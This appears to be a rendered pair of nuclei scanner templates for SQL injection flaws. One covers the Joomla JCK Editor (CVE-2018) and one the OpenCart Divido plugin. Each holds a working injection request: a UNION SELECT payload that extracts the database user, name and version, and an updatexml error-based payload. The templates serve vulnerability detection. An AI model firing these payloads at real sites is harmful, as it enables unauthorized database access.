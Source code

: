 
# Joomla! JCK Editor SQL Injection

## Description

- The JCK Editor component 6.4.4 for Joomla! allows SQL Injection via the jtreelink/dialogs/links.php parent parameter.
- severity - critical
- tags - cve,cve2018,packetstorm,edb,joomla,sqli

## Requests

### Step - 1

```
GET /plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent="%20UNION%20SELECT%20NULL,NULL,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION(),0x6e75636c65692d74656d706c617465),NULL,NULL,NULL,NULL,NULL--%20aa HTTP/1.1
Host: {{Hostname}}
Referer: {{BaseURL}}

```

### Matchers

**Type - word**

- part - body
- words
  1. nuclei-template

---

# Opencart Divido - Sql Injection

## Description

- OpenCart Divido plugin is susceptible to SQL injection

- severity - high
- tags - cve,cve2018,opencart,sqli

## Requests

### Step - 1

```
POST /upload/index.php?route=extension/payment/divido/update HTTP/1.1
Host: {{Hostname}}

{"metadata":{"order_id":"1 and updatexml(1,concat(0x7e,(SELECT md5({{num}})),0x7e),1)"},"status":2}

```

